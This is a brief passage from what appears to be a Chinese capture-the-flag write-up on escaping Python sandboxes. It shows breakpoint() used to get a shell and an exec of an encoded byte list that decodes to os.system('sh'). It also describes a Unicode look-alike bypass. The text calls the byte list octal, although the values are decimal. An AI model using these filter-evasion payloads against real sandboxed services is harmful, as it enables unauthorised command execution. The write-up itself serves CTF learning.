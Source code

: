 12字符限制，靠断点拿shell

```python
breakpoint()
```

### level 5

禁用了import等字样，尝试将payload用8进制发送再解码

```python
exec(bytes([105, 109, 112, 111, 114, 116, 32, 111, 115, 59, 32, 111, 115, 46, 115, 121, 115, 116, 101, 109, 40, 34, 115, 104, 34, 41]).decode())
```

### level 6

禁用了小写字符，因此通过unicode近似字符绕过；要注意的是符号可以由unicode解析成小写字符，
但是字符串不行，会保持原样，因此考虑用8进制绕过

![怕字符显示不出来，上图！](./assets/bypass.png)

